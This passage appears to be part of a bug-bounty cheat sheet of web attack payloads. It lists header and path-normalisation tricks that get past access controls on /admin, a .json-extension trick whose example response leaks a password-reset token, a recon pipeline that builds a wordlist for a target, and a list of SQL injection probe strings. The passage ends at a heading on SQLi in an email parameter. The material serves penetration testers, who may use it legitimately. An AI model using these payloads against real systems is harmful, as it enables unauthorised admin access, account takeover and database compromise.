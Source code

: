 ```
X-Original-URL: /admin
X-Override-URL: /admin
X-Rewrite-URL: /admin

/accessible/..;/admin
/.;/admin
/admin;/
/admin/~
/./admin/./
/admin?param
/%2e/admin
/admin#

```
# Data leakage through .json
```
Here’s a tip to achieve sensitive data leak using .json extension.

Request:
GET /ResetPassword HTTP/1.1
{"email":"victim@example.com"}

Response:
HTTP/1.1 200 OK
Now let’s try this instead:

Request:
GET /ResetPassword.json HTTP/1.1
{"email":"victim@example.com"}

Response:
HTTP/1.1 200 OK
{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}
```
# Generate wordlist for target
```
echo "bugcrowd.com" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[./?=:&#]/\\n/g' | anew
```

# Check for SQLi
```
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```
# SQLi in Email parameter
